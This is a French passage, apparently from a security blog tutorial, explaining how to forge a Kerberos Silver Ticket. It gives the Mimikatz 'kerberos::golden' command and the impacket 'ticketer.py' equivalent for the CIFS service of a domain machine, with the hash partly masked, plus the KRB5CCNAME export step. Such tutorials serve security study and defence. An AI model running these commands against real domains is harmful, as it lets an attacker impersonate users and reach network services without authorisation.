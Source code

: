 En pratique, voici une capture d'écran qui montre la création d'un Silver Ticket avec l'outil [Mimikatz](http://blog.gentilkiwi.com/mimikatz) développé par Benjamin Delpy ([@gentilkiwi](https://twitter.com/gentilkiwi)).

[![CIFS Example](/assets/uploads/2019/02/ST_CIFS.png)](/assets/uploads/2019/02/ST_CIFS.png)

La ligne de commande utilisée dans Mimikatz est la suivante :

```
/kerberos::golden /domain:adsec.local /user:random_user /sid:S-1-5-21-1423455951-1752654185-1824483205 /rc4:ceaxxxxxxxxxxxxxxxxxxxxxxxxxxxxx /target:DESKTOP-01.adsec.local /service:cifs /ptt
```

Cela veut dire qu'on crée un ticket pour le domaine `adsec.local` avec un nom d'utilisateur **arbitraire** (`random_user`), et que l'on vise le service `CIFS` de la machine `DESKTOP-01` en fournissant son hash NTLM.

Il est également possible de créer un Silver Ticket sous linux en utilisant [impaket](https://github.com/SecureAuthCorp/impacket), via l'outil `ticketer.py`.

```bash
ticketer.py -nthash ceaxxxxxxxxxxxxxxxxxxxxxxxxxxxxx -domain-sid S-1-5-21-1423455951-1752654185-1824483205 -domain adsec.local -spn CIFS/DESKTOP-01.adsec.local random_user
``` 

Il faut ensuite exporter le chemin du ticket dans une variable d'environnement spéciale `KRB5CCNAME`

```bash
export KRB5CCNAME='/chemin/vers/random_user.ccache'
```
